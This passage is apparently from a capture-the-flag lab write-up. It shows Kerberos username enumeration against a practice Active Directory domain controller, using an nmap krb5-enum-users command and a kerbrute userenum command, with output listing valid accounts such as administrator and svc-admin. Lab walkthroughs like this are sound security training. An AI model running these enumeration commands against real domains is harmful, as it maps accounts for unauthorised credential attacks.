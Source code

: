 ```
(truncated)
```

### Task 4: Enumerate the DC Part 2

##### Enumerating Users:

**Using nmap:**

```
crazyeights@kali:~$​ nmap -p88 --script krb5-enum-users --script-args krb-enum-users.realm="THM-AD",userdb=unix_users.txt 10.10.182.180

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-18 20:17 EDT
Nmap scan report for 10.10.182.180
Host is up (0.12s latency).
PORT STATE SERVICE
88/tcp open kerberos-sec
(Need to use a bigger wordlist)
```

**Using kerbrute:**

```
crazyeights@kali:~/kerbrute/dist$​ ./kerbrute_linux_amd64 userenum --dc 10.10.182.180 -d THM-AD /usr/share/metasploit-framework/data/wordlists/namelist.txt

[+] VALID USERNAME: administrator@THM-AD
[+] VALID USERNAME: backup@THM-AD
[+] VALID USERNAME: james@THM-AD
[+] VALID USERNAME: James@THM-AD
[+] VALID USERNAME: robin@THM-AD
[+] VALID USERNAME: darkstar@THM-AD
[+] VALID USERNAME: paradox@THM-AD
[+] VALID USERNAME: JAMES@THM-AD
[+] VALID USERNAME: Robin@THM-AD
[+] VALID USERNAME: Administrator@THM-AD
[+] VALID USERNAME: Darkstar@THM-AD
[+] VALID USERNAME: Paradox@THM-AD
[+] VALID USERNAME: DARKSTAR@THM-AD
[+] VALID USERNAME: ori@THM-AD
[+] VALID USERNAME: svc-admin@THM-AD
```

![](/assets/images/13/a3.png)
